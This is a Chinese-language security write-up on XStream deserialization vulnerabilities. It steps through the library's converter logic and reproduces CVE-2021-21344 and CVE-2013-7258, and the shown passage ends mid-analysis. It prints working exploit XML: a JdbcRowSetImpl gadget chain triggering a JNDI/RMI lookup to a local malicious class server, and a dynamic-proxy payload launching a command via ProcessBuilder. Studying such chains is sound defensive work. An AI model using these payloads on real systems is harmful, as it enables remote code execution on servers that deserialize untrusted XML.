Java 安全之 XStream 漏洞分析与利用


# Java 安全之 XStream 漏洞分析与利用

## 1\. 简介

官方文档描述：

> XStream is designed to be an easy to use library. It takes its main task seriously: converting Java objects to XML, and XML to Java objects. As a result, it is possible to create an instance of XStream with the default constructor, call a method to convert an object into XML, then call another method to turn the XML back into an equivalent Java object. By design, there are few limits to the type of objects XStream can handle.
> 
> 简单来说，XStream 是一个能将 Java 对象和 XML 相互转换的 Java 库。

导入 Maven 依赖：

```plain
<dependency>
    <groupId>com.thoughtworks.xstream</groupId>
    <artifactId>xstream</artifactId>
    <version>1.4.4</version>
</dependency>
```

**示例 1**：Java 对象没有实现反序列化接口并重写 readObject 方法  
Person 类：

```plain
package Xstream;

public class Person {
    private String name;
    private int age;

    public Person(String name, int age) {
        this.name = name;
        this.age = age;
    }

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public int getAge() {
        return age;
    }

    public void setAge(int age) {
        this.age = age;
    }

    @Override
    public String toString() {
        return "Person{" +
                "name='" + name + '\'' +
                ", age=" + age +
                '}';
    }
}
```

测试类：

```plain
package Xstream;


import com.thoughtworks.xstream.XStream;

public class XstreamTest1 {
    public static void main(String[] args) {
        Person person = new Person("lucy", 22);
        XStream xStream = new XStream();
        String xml = xStream.toXML(person);
        System.out.print(xml);
    }
}
```

运行结果：

```plain
<Xstream.Person>
  <name>lucy</name>
  <age>22</age>
</Xstream.Person>
```

**示例 2**：Java 对象继承了反序列化接口并重写了 readObject 方法  
Car 类：

```plain
package Xstream;

import java.io.IOException;
import java.io.Serializable;

public class Car implements Serializable {
    private String name;
    private int price;

    public Car(String name, int price) {
        this.name = name;
        this.price = price;
    }

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public int getPrice() {
        return price;
    }

    public void setPrice(int price) {
        this.price = price;
    }

    private void readObject(java.io.ObjectInputStream s) throws IOException, ClassNotFoundException {
        s.defaultReadObject();
        System.out.println("Print Car");
    }
}
```

测试类：

```plain
package Xstream;

import com.thoughtworks.xstream.XStream;

public class XstreamTest2 {
    public static void main(String[] args) {
        Car car = new Car("benchi", 2000000);
        XStream xStream = new XStream();
        String xml = xStream.toXML(car);
        System.out.print(xml);
    }
}
```

运行结果：

```plain
<Xstream.Car serialization="custom">
  <Xstream.Car>
    <default>
      <price>2000000</price>
      <name>benchi</name>
    </default>
  </Xstream.Car>
</Xstream.Car>
```

结论：Xstream 在处理继承了 Serializable 与没有继承 Serializable 接口的类时，所用的方法不一致

**示例 3**：反序列化示例

```plain
package Xstream;

import com.thoughtworks.xstream.XStream;

public class XstreamTest2 {
    public static void main(String[] args) {
        // 反序列化
        String xml = "<Xstream.Car serialization=\"custom\">\n" +
                "  <Xstream.Car>\n" +
                "    <default>\n" +
                "      <price>2000000</price>\n" +
                "      <name>benchi</name>\n" +
                "    </default>\n" +
                "  </Xstream.Car>\n" +
                "</Xstream.Car>";
        XStream xStream = new XStream();
        Car car = (Car) xStream.fromXML(xml);
        System.out.println(car);
    }
}
```

运行结果：

```plain
Print Car
Xstream.Car@35d176f7
```

注：在反序列化中，Car 必须要有无参数的构造方法

## 2\. 反序列化分析

在 Car 类重写的 readObject 函数上下断点，看 XStream 的 fromXML 过程是否会反序列化调用重写的 readObject 函数  
函数调用栈：

```plain
readObject:37, Car (Xstream)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
callReadObject:113, SerializationMethodInvoker (com.thoughtworks.xstream.converters.reflection)
doUnmarshal:425, SerializableConverter (com.thoughtworks.xstream.converters.reflection)
unmarshal:234, AbstractReflectionConverter (com.thoughtworks.xstream.converters.reflection)
convert:72, TreeUnmarshaller (com.thoughtworks.xstream.core)
convert:65, AbstractReferenceUnmarshaller (com.thoughtworks.xstream.core)
convertAnother:66, TreeUnmarshaller (com.thoughtworks.xstream.core)
convertAnother:50, TreeUnmarshaller (com.thoughtworks.xstream.core)
start:134, TreeUnmarshaller (com.thoughtworks.xstream.core)
unmarshal:32, AbstractTreeMarshallingStrategy (com.thoughtworks.xstream.core)
unmarshal:1058, XStream (com.thoughtworks.xstream)
unmarshal:1042, XStream (com.thoughtworks.xstream)
fromXML:913, XStream (com.thoughtworks.xstream)
fromXML:904, XStream (com.thoughtworks.xstream)
main:23, XstreamTest2 (Xstream)
```

结论是如果目标对象实现了 readObject 函数的话，最终会调用此函数

在 com.thoughtworks.xstream.core 的 convertAnother 函数中，会调用 lookupConverterForType 函数根据 type 选择正确的 converter

```plain
public Object convertAnother(Object parent, Class type, Converter converter) {
    type = mapper.defaultImplementationOf(type);
    if (converter == null) {
        converter = converterLookup.lookupConverterForType(type);
    } else {
        if (!converter.canConvert(type)) {
            ConversionException e = new ConversionException(
                "Explicit selected converter cannot handle type");
            e.add("item-type", type.getName());
            e.add("converter-type", converter.getClass().getName());
            throw e;
        }
    }
    return convert(parent, type, converter);
}
```

在执行到 com/thoughtworks/xstream/core/DefaultConverterLookup.java 的 lookupConverterForType 函数时，会根据 type 选择 converter

```plain
public Converter lookupConverterForType(Class type) {
    Converter cachedConverter = (Converter) typeToConverterMap.get(type);
    if (cachedConverter != null) {
        return cachedConverter;
    }
    Iterator iterator = converters.iterator();
    while (iterator.hasNext()) {
        Converter converter = (Converter) iterator.next();
        if (converter.canConvert(type)) {
            typeToConverterMap.put(type, converter);
            return converter;
        }
    }
    throw new ConversionException("No converter specified for " + type);
}
```

iterator 中总共有 57 个，逐个匹配  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230814211943-3b8391d0-3aa5-1.png)  
这里的 converter 是 SerializableConverter  
在试试如果目标对象没有实现 readObject 函数，在 fromXML 过程中会发生什么？  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230814212020-51a8c520-3aa5-1.png)  
同样在经过 lookupConverterForType 函数后，其 converter 是 ReflectionConverter

**总结**  
总而言之，XStream 为 Java 常见的类型提供了不同的转换器，其思路就是通过不同的 converter 来处理序列化数据中不同类型的数据

## 3\. 漏洞汇总

[](https://xzfile.aliyuncs.com/media/upload/picture/20230814212046-60b41f10-3aa5-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230814212104-6b6379f6-3aa5-1.png)  
参考：[https://x-stream.github.io/security.html](https://x-stream.github.io/security.html)

## 4\. CVE-2021-21344

**影响版本**：<=1.4.15  
**测试环境**：XStream1.4.15 jdk1.8\_66  
**复现**：  
继续使用 JNDI 中用到的 RMI Server：

```plain
package JNDI;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class ReferServer {
    public static void main(String[] args) throws Exception{
        Registry registry = LocateRegistry.createRegistry(7777);

        // 创建Reference对象
        Reference reference = new Reference("test", "test", "http://127.0.0.1:8080/");
        // 由于Reference类没有继承Remote接口, 所以需要使用ReferenceWrapper进行封装
        ReferenceWrapper wrapper = new ReferenceWrapper(reference);
        registry.bind("exec", wrapper);
    }
}
```

test 是一个恶意类，在其对应的文件夹开启 web 服务  
POC：官方给出的 POC，需要修改其里面的 RMI 地址

```plain
<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
      <comparator class='sun.awt.datatransfer.DataTransferer$IndexOrderComparator'>
        <indexMap class='com.sun.xml.internal.ws.client.ResponseContext'>
          <packet>
            <message class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart'>
              <dataSource class='com.sun.xml.internal.ws.message.JAXBAttachment'>
                <bridge class='com.sun.xml.internal.ws.db.glassfish.BridgeWrapper'>
                  <bridge class='com.sun.xml.internal.bind.v2.runtime.BridgeImpl'>
                    <bi class='com.sun.xml.internal.bind.v2.runtime.ClassBeanInfoImpl'>
                      <jaxbType>com.sun.rowset.JdbcRowSetImpl</jaxbType>
                      <uriProperties/>
                      <attributeProperties/>
                      <inheritedAttWildcard class='com.sun.xml.internal.bind.v2.runtime.reflect.Accessor$GetterSetterReflection'>
                        <getter>
                          <class>com.sun.rowset.JdbcRowSetImpl</class>
                          <name>getDatabaseMetaData</name>
                          <parameter-types/>
                        </getter>
                      </inheritedAttWildcard>
                    </bi>
                    <tagName/>
                    <context>
                      <marshallerPool class='com.sun.xml.internal.bind.v2.runtime.JAXBContextImpl$1'>
                        <outer-class reference='../..'/>
                      </marshallerPool>
                      <nameList>
                        <nsUriCannotBeDefaulted>
                          <boolean>true</boolean>
                        </nsUriCannotBeDefaulted>
                        <namespaceURIs>
                          <string>1</string>
                        </namespaceURIs>
                        <localNames>
                          <string>UTF-8</string>
                        </localNames>
                      </nameList>
                    </context>
                  </bridge>
                </bridge>
                <jaxbObject class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
                  <javax.sql.rowset.BaseRowSet>
                    <default>
                      <concurrency>1008</concurrency>
                      <escapeProcessing>true</escapeProcessing>
                      <fetchDir>1000</fetchDir>
                      <fetchSize>0</fetchSize>
                      <isolation>2</isolation>
                      <maxFieldSize>0</maxFieldSize>
                      <maxRows>0</maxRows>
                      <queryTimeout>0</queryTimeout>
                      <readOnly>true</readOnly>
                      <rowSetType>1004</rowSetType>
                      <showDeleted>false</showDeleted>
                      <dataSource>rmi://localhost:7777/exec</dataSource>
                      <params/>
                    </default>
                  </javax.sql.rowset.BaseRowSet>
                  <com.sun.rowset.JdbcRowSetImpl>
                    <default>
                      <iMatchColumns>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                        <int>-1</int>
                      </iMatchColumns>
                      <strMatchColumns>
                        <string>foo</string>
                        <null/>
                        <null/>
                        <null/>
                        <null/>
                        <null/>
                        <null/>
                        <null/>
                        <null/>
                        <null/>
                      </strMatchColumns>
                    </default>
                  </com.sun.rowset.JdbcRowSetImpl>
                </jaxbObject>
              </dataSource>
            </message>
            <satellites/>
            <invocationProperties/>
          </packet>
        </indexMap>
      </comparator>
    </default>
    <int>3</int>
    <string>javax.xml.ws.binding.attachments.inbound</string>
    <string>javax.xml.ws.binding.attachments.inbound</string>
  </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

测试文件：里面的 xml 为上面的 POC

```plain
package Xstream;


import com.thoughtworks.xstream.XStream;

public class CVE202121344 {
    public static void main(String[] args) {
        XStream xStream = new XStream();
        String xml = "";
        xStream.fromXML(xml);
    }
}
```

**分析**：  
第一：java.util.PriorityQueue  
根据 POC 的根节点使用的是 PriorityQueue，这也是链的第一步，在反序列化的过程中会调用其 readObject 函数  
在 CC2 中了解到此链的触发点是 comparator 的 compare 函数，POC 中将 compara 设置成 sun.awt.datatransfer.DataTransferer$IndexOrderComparator  
第二：sun.awt.datatransfer.DataTransferer  
成功设置 comparator 后，在调用 PriorityQueue 函数的 siftDownUsingComparator 方法后，会成功跳转至 DataTransferer 的 compare 方法，接着后面的某段链没了解过  
第三：com.sun.rowset.JdbcRowSetImpl  
来到 JdbcRowSetImpl 的 getDatabaseMetaData 方法，在里面它调用 connect 方法

```plain
public DatabaseMetaData getDatabaseMetaData() throws SQLException {
    Connection var1 = this.connect();
    return var1.getMetaData();
}
```

此链在 fastjson 中使用过，查看其 connect 方法

```plain
private Connection connect() throws SQLException {
    if (this.conn != null) {
        return this.conn;
    } else if (this.getDataSourceName() != null) {
        try {
            InitialContext var1 = new InitialContext();
            DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName());
            return this.getUsername() != null && !this.getUsername().equals("") ? var2.getConnection(this.getUsername(), this.getPassword()) : var2.getConnection();
        } catch (NamingException var3) {
            throw new SQLException(this.resBundle.handleGetObject("jdbcrowsetimpl.connect").toString());
        }
    } else {
        return this.getUrl() != null ? DriverManager.getConnection(this.getUrl(), this.getUsername(), this.getPassword()) : null;
    }
}
```

这里通过 JNDI 去 lookup 存放在属性 dataSource 的地址，在上面的 POC 中我们将 dataSource 设置成了恶意的 rmi 地址  
第四步：JNDI 注入  
接下来的过程就是 JNDI 注入的那一套了  
**函数调用栈**

```plain
getObjectFactoryFromReference:142, NamingManager (javax.naming.spi)
getObjectInstance:319, NamingManager (javax.naming.spi)
decodeObject:464, RegistryContext (com.sun.jndi.rmi.registry)
lookup:124, RegistryContext (com.sun.jndi.rmi.registry)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:417, InitialContext (javax.naming)
connect:624, JdbcRowSetImpl (com.sun.rowset)
getDatabaseMetaData:4004, JdbcRowSetImpl (com.sun.rowset)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
get:343, Accessor$GetterSetterReflection (com.sun.xml.internal.bind.v2.runtime.reflect)
serializeURIs:402, ClassBeanInfoImpl (com.sun.xml.internal.bind.v2.runtime)
childAsXsiType:662, XMLSerializer (com.sun.xml.internal.bind.v2.runtime)
write:256, MarshallerImpl (com.sun.xml.internal.bind.v2.runtime)
marshal:89, BridgeImpl (com.sun.xml.internal.bind.v2.runtime)
marshal:130, Bridge (com.sun.xml.internal.bind.api)
marshal:161, BridgeWrapper (com.sun.xml.internal.ws.db.glassfish)
writeTo:109, JAXBAttachment (com.sun.xml.internal.ws.message)
asInputStream:99, JAXBAttachment (com.sun.xml.internal.ws.message)
getInputStream:125, JAXBAttachment (com.sun.xml.internal.ws.message)
getMessage:366, XMLMessage$XMLMultiPart (com.sun.xml.internal.ws.encoding.xml)
getAttachments:465, XMLMessage$XMLMultiPart (com.sun.xml.internal.ws.encoding.xml)
getAttachments:103, MessageWrapper (com.sun.xml.internal.ws.api.message)
get:111, ResponseContext (com.sun.xml.internal.ws.client)
compareIndices:2492, DataTransferer$IndexedComparator (sun.awt.datatransfer)
compare:2970, DataTransferer$IndexOrderComparator (sun.awt.datatransfer)
siftDownUsingComparator:721, PriorityQueue (java.util)
siftDown:687, PriorityQueue (java.util)
heapify:736, PriorityQueue (java.util)
readObject:795, PriorityQueue (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
callReadObject:132, SerializationMembers (com.thoughtworks.xstream.core.util)
doUnmarshal:443, SerializableConverter (com.thoughtworks.xstream.converters.reflection)
unmarshal:277, AbstractReflectionConverter (com.thoughtworks.xstream.converters.reflection)
convert:72, TreeUnmarshaller (com.thoughtworks.xstream.core)
convert:72, AbstractReferenceUnmarshaller (com.thoughtworks.xstream.core)
convertAnother:66, TreeUnmarshaller (com.thoughtworks.xstream.core)
convertAnother:50, TreeUnmarshaller (com.thoughtworks.xstream.core)
start:134, TreeUnmarshaller (com.thoughtworks.xstream.core)
unmarshal:32, AbstractTreeMarshallingStrategy (com.thoughtworks.xstream.core)
unmarshal:1409, XStream (com.thoughtworks.xstream)
unmarshal:1388, XStream (com.thoughtworks.xstream)
fromXML:1273, XStream (com.thoughtworks.xstream)
fromXML:1264, XStream (com.thoughtworks.xstream)
main:112, CVE202121344 (Xstream)
```

## 5\. CVE-2013-7258

**影响版本**：1.4.x-1.4.6 及 1.4.10  
**测试环境**：XStream1.4.5 JDK1.8\_66  
**复现**：  
POC

```plain
<sorted-set>
    <string>foo</string>
    <dynamic-proxy>
        <interface>java.lang.Comparable</interface>
        <handler class="java.beans.EventHandler">
            <target class="java.lang.ProcessBuilder">
                <command>
                    <string>cmd</string>
                    <string>/C</string>
                    <string>calc.exe</string>
                </command>
            </target>
            <action>start</action>
        </handler>
    </dynamic-proxy>
</sorted-set>
```

测试文件：里面的 XML 为上面的 POC

```plain
package Xstream;

import com.thoughtworks.xstream.XStream;

public class CVE20137258 {
    public static void main(String[] args) {
        XStream xStream = new XStream();
        String xml = "";
        xStream.fromXML(xml);
    }
}
```

**分析**：  
根据前面的 fromXML 的流程，单步执行至 TreeUnmarshaller 的 start 函数

```plain
public Object start(DataHolder dataHolder) {
    this.dataHolder = dataHolder;
    // 根据 XML 的根标签获取对应的 class
    Class type = HierarchicalStreams.readClassType(this.reader, this.mapper);
    // 将对应的 class 转换成 Java 对象
    Object result = this.convertAnother((Object)null, type);
    Iterator validations = this.validationList.iterator();

    while(validations.hasNext()) {
        Runnable runnable = (Runnable)validations.next();
        runnable.run();
    }

    return result;
}
```

进入 readClassType 函数

```plain
public static Class readClassType(HierarchicalStreamReader reader, Mapper mapper) {
    String classAttribute = readClassAttribute(reader, mapper);
    Class type;
    if (classAttribute == null) {
        // 根据节点名从 mapper 中得到对应的 type
        type = mapper.realClass(reader.getNodeName());
    } else {
        type = mapper.realClass(classAttribute);
    }

    return type;
}
```

进入 realClass 函数:com\\thoughtworks\\xstream\\mapper\\CachingMapper.class

```plain
public Class realClass(String elementName) {
    // 获取根元素
    Object cached = this.realClassCache.get(elementName);
    // 如果 realClassCache 中存在，直接返回即可
    if (cached != null) {
        if (cached instanceof Class) {
            return (Class)cached;
        } else {
            throw (CannotResolveClassException)cached;
        }
    } else {
        try {
            // 调用父类的 realClass 继续解析
            Class result = super.realClass(elementName);
            // 并将其存放至 realClassCache
            this.realClassCache.put(elementName, result);
            return result;
        } catch (CannotResolveClassException var4) {
            this.realClassCache.put(elementName, var4);
            throw var4;
        }
    }
}
```

得到了根元素的 class，返回至 TreeUnmarshaller 的 start 函数，这时来到了下面这条语句

```plain
Object result = this.convertAnother((Object)null, type);
```

此时的 type 正是上面获取的 class：java.util.SortedSet  
进入 TreeUnmarshaller 的 convertAnother 函数

```plain
public Object convertAnother(Object parent, Class type) {
    return this.convertAnother(parent, type, (Converter)null);
}
```

转换成 3 个参数的 convertAnother 函数

```plain
public Object convertAnother(Object parent, Class type, Converter converter) {
    type = this.mapper.defaultImplementationOf(type);
    if (converter == null) {
        // 根据 type 获取对应的 converter
        converter = this.converterLookup.lookupConverterForType(type);
    } else if (!converter.canConvert(type)) {
        ConversionException e = new ConversionException("Explicit selected converter cannot handle type");
        e.add("item-type", type.getName());
        e.add("converter-type", converter.getClass().getName());
        throw e;
    }

    // 然后将type转换成对应的object
    return this.convert(parent, type, converter);
}
```

这里的 converter 是 TreeSetConverter 转换器，其中 lookupConverterForType 函数在上面分析过  
接下来进入到 AbstractReferenceUnmarshaller.class 的 convert 函数

```plain
protected Object convert(Object parent, Class type, Converter converter) {
    Object result;
    if (this.parentStack.size() > 0) {
        result = this.parentStack.peek();
        if (result != null && !this.values.containsKey(result)) {
            this.values.put(result, parent);
        }
    }
    // 从 mapper 中获取 reference 别名
    String attributeName = this.getMapper().aliasForSystemAttribute("reference");
    String reference = attributeName == null ? null : this.reader.getAttribute(attributeName);
    Object cache;
    if (reference != null) {
        cache = this.values.get(this.getReferenceKey(reference));
        if (cache == null) {
            ConversionException ex = new ConversionException("Invalid reference");
            ex.add("reference", reference);
            throw ex;
        }

        result = cache == NULL ? null : cache;
    } else {
        // 获取当前标签
        cache = this.getCurrentReferenceKey();
        // 并将其压入栈中
        this.parentStack.push(cache);
        // 然后调用父类的convert方法
        result = super.convert(parent, type, converter);
        if (cache != null) {
            this.values.put(cache, result == null ? NULL : result);
        }

        this.parentStack.popSilently();
    }

    return result;
}
```

查看 TreeUnmarshaller 的 convert 方法

```plain
protected Object convert(Object parent, Class type, Converter converter) {
    try {
        // 
        this.types.push(type);
        Object result = converter.unmarshal(this.reader, this);
        this.types.popSilently();
        return result;
    } catch (ConversionException var6) {
        this.addInformationTo(var6, type, converter, parent);
        throw var6;
    } catch (RuntimeException var7) {
        ConversionException conversionException = new ConversionException(var7);
        this.addInformationTo(conversionException, type, converter, parent);
        throw conversionException;
    }
}
```

前面得到了 converter 是 TreeSetConverter 转换器，现在调用其 unmarshal 方法，进入该方法，最终会到下面这句代码

```plain
this.treeMapConverter.populateTreeMap(reader, context, treeMap, unmarshalledComparator);
```

进入该函数

```plain
protected void populateTreeMap(HierarchicalStreamReader reader, UnmarshallingContext context, TreeMap result, Comparator comparator) {
    boolean inFirstElement = comparator == NULL_MARKER;
    if (inFirstElement) {
        comparator = null;
    }

    SortedMap sortedMap = new PresortedMap(comparator != null && JVM.hasOptimizedTreeMapPutAll() ? comparator : null);
    if (inFirstElement) {
        // 将当前的内容存入Map中
        this.putCurrentEntryIntoMap(reader, context, result, sortedMap);
        reader.moveUp();
    }

    this.populateMap(reader, context, result, sortedMap);
    ...
}
```

进入 putCurrentEntryIntoMap 方法

```plain
protected void putCurrentEntryIntoMap(HierarchicalStreamReader reader, UnmarshallingContext context, Map map, Map target) {
    // 读取标签的内容并将其放入 target 这个 Map 中
    Object key = this.readItem(reader, context, map);
    target.put(key, key);
}
```

一直跟进，在 CachingMapper.class 的 realClass 中会获得里面嵌套的标签\\<String>，获取到后会将该标签的值 foo 存入 target 中，继续单步获取内嵌的下一个标签  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230814212214-956cb7e4-3aa5-1.png)  
进入该函数，单步执行，一直跟着标签名寻找对应的类  
最后在 com\\thoughtworks\\xstream\\mapper\\DynamicProxyMapper.class 的 realClass 方法中

```plain
public Class realClass(String elementName) {
    return elementName.equals(this.alias) ? DynamicProxy.class : super.realClass(elementName);
}
```

这里的 this.alias 就是 dynamic-proxy，这里相等即返回 DynamicProxy.class  
F8 一直返回到 AbstractCollectionConverter 的 readItem 方法，执行下一条语句，进入 convertAnother 方法，一直到 TreeUnmarshaller 的 convertAnother 方法，这里会得到 converter 为 DynamicProxyConverter  
又是同样的流程解析 dynamic-proxy 里面的标签内容  
模仿上面的流程来到 DynamicProxyConverter.class 中的 unmarshal 函数

```plain
public Object unmarshal(HierarchicalStreamReader reader, UnmarshallingContext context) {
    List interfaces = new ArrayList();
    InvocationHandler handler = null;

    // 解析dynamic-proxy里的interface和handler
    Class handlerType;
    for(handlerType = null; reader.hasMoreChildren(); reader.moveUp()) {
        reader.moveDown();
        String elementName = reader.getNodeName();
        // 匹配interface
        if (elementName.equals("interface")) {
            interfaces.add(this.mapper.realClass(reader.getValue()));
        } else if (elementName.equals("handler")) {
            // 匹配handler
            String attributeName = this.mapper.aliasForSystemAttribute("class");
            if (attributeName != null) {
                handlerType = this.mapper.realClass(reader.getAttribute(attributeName));
                break;
            }
        }
    }

    if (handlerType == null) {
        throw new ConversionException("No InvocationHandler specified for dynamic proxy");
    } else {
        Class[] interfacesAsArray = new Class[interfaces.size()];
        interfaces.toArray(interfacesAsArray);
        Object proxy = null;
        if (HANDLER != null) {
            proxy = Proxy.newProxyInstance(this.classLoaderReference.getReference(), interfacesAsArray, DUMMY);
        }
        // 解析handler标签下的东西，解析流程和上面一致
        handler = (InvocationHandler)context.convertAnother(proxy, handlerType);
        reader.moveUp();
        if (HANDLER != null) {
            Fields.write(HANDLER, proxy, handler);
        } else {
            proxy = Proxy.newProxyInstance(this.classLoaderReference.getReference(), interfacesAsArray, handler);
        }

        return proxy;
    }
}
```

执行到最后的 return，结果如下：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20230814212253-acbb5144-3aa5-1.png)  
然后又一直 return，回到 TreeMapConverter 的 populateTreeMap 函数  
